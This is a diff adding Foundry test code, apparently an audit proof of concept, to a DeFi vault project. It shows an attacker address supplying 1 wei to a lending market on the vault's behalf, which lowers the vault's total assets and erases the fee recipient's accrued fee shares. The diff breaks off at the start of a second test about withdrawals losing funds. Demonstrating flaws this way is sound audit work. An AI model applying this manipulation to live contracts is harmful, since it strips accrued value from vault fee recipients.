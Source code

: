 ```diff
+
+    // assets deposited into vault
+    vm.prank(supplier);
+    vault.deposit(1 ether, onBehalf);
+
+    uint256 totalAssetsBeforeInterest = vault.totalAssets();
+
+    // pool and vault accumulate interest
+    vm.warp(block.timestamp + 10 days);
+    allMarkets[0].forceUpdateReserve(address(loanToken));
+
+    uint256 totalAssetsAfterInterest = vault.totalAssets();
+    assertGt(totalAssetsAfterInterest, totalAssetsBeforeInterest);
+
+    emit log_named_uint("total assets before interest", totalAssetsBeforeInterest);
+    emit log_named_uint("total assets after interest", totalAssetsAfterInterest);
+
+    // --- ideal scenario: interest accrued in vault with no manipulation, fee shares credited --- //
+    uint256 snapshot = vm.snapshot();
+
+    // interest accrued on vault - for simplicity accrued via permissioned function
+    vm.prank(owner);
+    vault.setFee(0);
+
+    uint256 expectedFeeShares = vault.balanceOf(vault.feeRecipient());
+    assertGt(expectedFeeShares, 0);
+
+    emit log_named_uint("fee recipient shares accrued - without manipulation", expectedFeeShares);
+
+    // --- revert to prev state - bad actor effectively "erases" accumulated interest from vault's perspective --- //
+    vm.revertTo(snapshot);
+    address user = address(0x69420);
+    _mintAndApprove(user, loanToken, 1e18, address(allMarkets[0]));
+    vm.startPrank(user);
+    allMarkets[0].supplySimple(address(loanToken), address(vault), 1, 0); // supply 1 wei to update position's lastSupplyLiquidityIndex
+    allMarkets[0].forceUpdateReserve(address(loanToken));
+    vm.stopPrank();
+
+    uint256 newTotalAssets = vault.totalAssets();
+    assertLt(newTotalAssets, totalAssetsAfterInterest);
+
+    emit log_named_uint("total assets after manipulation", newTotalAssets);
+
+    // interest accrued on vault - for simplicity accrued via permissioned function
+    vm.prank(owner);
+    vault.setFee(0);
+
+    uint256 actualFeeShares = vault.balanceOf(vault.feeRecipient());
+    assertEq(actualFeeShares, 0);
+
+    emit log_named_uint("fee recipient shares accrued - with manipulation", actualFeeShares);
+  }
+
+  function test_JCN_WithdrawLoseFunds() public {
+    _setCap(allMarkets[0], 1000 ether);
+
+    // set vault fee and pool state
+    vm.prank(owner);
+    vault.setFee(0.5e18);
+
```